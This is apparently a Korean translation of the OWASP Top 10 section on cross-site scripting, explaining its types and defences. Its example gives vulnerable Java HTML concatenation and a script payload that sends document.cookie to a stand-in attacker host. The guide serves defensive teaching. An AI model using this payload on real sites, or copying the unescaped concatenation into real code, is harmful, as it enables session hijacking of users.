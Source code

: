 ## A7. 크로스 사이트 스크립팅(XSS)

 XSS 취약점은 어플리케이션은 올바르지 않은 유효성 검사와 필터링 처리없이 새 웹 페이지에 신뢰할 수 없는 데이터를 포함하거나, HTML을 생성하는 브라우저 API, 혹은 JavaScript를 활용한 사용자 제공 데이터로 기존 웹페이즈를 업데이트할 때 발생한다. XSS는 공격자가 피해자의 브라우저에서 스크립트를 실행시켜 사용자 세션을 탈취할 수 있게 만들고, 웹 사이트를 변조하거나, 악성 사이트로 리다이렉션할 수 있도록 한다.

### 취약점 검토

일반적으로 사용자의 브라우저를 목표로 하는 세 가지 형태의 크로스
사이트 스크립팅(XSS)이 있다.

**Reflected XSS** HTML 출력의 일부로써 유효성이 확인되지 않고, 특수문자가 필터되지 않은 사용자 입력이 애플리케이션 혹은 API에 포함된다. 공격이 성공하면 공격자는 피해자의 브라우저에서 임의의 HTML과 자바스크립트를 실행할 수 있다. 전형적으로 사용자는 악의적인 워터링 홀 공격을 수행하는 웹 사이트, 광고 사이트 혹은 이와 유사한 공격자에 의해 제어되는 페이지를 가리키는 몇몇 악의적인 링크와 상호 작성을 해야 할 필요가 있다.

**Stored XSS** 응용 프로그램 또는 API에서 나중에 다른 사용자 또는 관리자가 볼 수 있는 가공되지 않은 사용자 입력값이 저장된다. Stored XSS는 종종 중대한 위협으로 간주된다.

**DOM XSS** 페이지에 공격자가 제어 가능한 데이터를 동적으로 포함할 수 있는 자바스크립트 프레임워크, 한 페이지 어플리케이션, 그리고 API는 DOM 기반 XSS에 취약하다. 이론상으로 어플리케이션은 안전하지 않은 자바스크립트 API로 공격자가 제어 가능한 데이터를 보내지 않는다. 전형적인 XSS 공격은 세션 도용, 계정 탈취, 다중 요소 인증 우회, 트로이 목마 악성코드 배포 로그인 패널과 같은 DOM 노드 대체 혹은 변조, 악성코드 다운로드, 키 로깅, 그리고 다른 클라이언트 측면의 공격과 같은 사용자 브라우저에 대한 공격을 포함한다.

### 예제

**#1** 이 어플리케이션은 유효성 검사 또는 필터링 처리없이 다음의 HTML 스니펫의 구성 내 신뢰할 수 없는 데이터를 사용한다.

    (String) page += "<input name='creditcard' type='TEXT' value='"
    	+ request.getParameter("CC") + "'>";

공격자는 브라우저 내에서 다음과 같이 ‘CC’ 파라미터를 조작한다.

    '><script>document.location=
    'http://www.attacker.com/cgi-bin/cookie.cgi?
    foo='+document.cookie</script>'

 이 공격으로 인해 피해자의 세션 ID가 공격자의 웹 사이트로 전송되어 공격자가 사용자의 현재 세션을 가로챌 수 있다. 공격자는 XSS를 사용하여 어플리케이션이 사용할 수 있는 자동화된 크로스 사이트 요청 변조(CSRF) 방어를 무력화할 수 있다.

### 보안대책

XSS를 방지하려면 신뢰할 수 없는 데이터를 사용 중인 브라우저
컨텐츠와 분리해야 한다. 

- 최신 Ruby on Rails, React JS와 같이 XSS를 자동으로 필터링 처리하는 프레임워크를 사용한다. 각 프레임워크의 XSS 보호의 한계를 알아보고 다루지 않은 사용 사례들을 적절히 처리하기를 권장한다.
- HTML 출력 내의 컨텍스트 기반으로 신뢰할 수 없는 HTTP 요청 데이터를 필터링하며 리플렉티드 및 저장 XSS 취약점이 해결된다.
- 클라이언트 측에서 브라우저 문서를 수정할 때 상황에 맞는 인코딩을 적용하면 DOM XSS에 대해 대응할 수 있다. 이것으로 방어할 수 없는 경우, OWASP 치트 시트 'DOM 기반 XSS 방어’ 에서 기술된 바와 같이 브라우저 API에 유사한 문맥 감지 필터링 기술을 적용할 수 있다.
- 컨텐츠 보안 정책(CSP)의 활성화는 XSS에 대한 심층적인 방어 통제다. 로컬 파일 첨부를 통해 악성코드를 배치할 수 있는 다른 취약점이 없는 경우라면 효과적이다.

## A8. 안전하지 않은 역직렬화(Insecure Deserialization)

 안전하지 않은 역직렬화는 원격코드의 실행까지 이어진다. 역직렬화 취약점이 원격코드 실행까지 이어지지 않더라도 본 취약점을 통해 권한 상습, 코드 인젝션, 리플레이 공격이 가능하다.
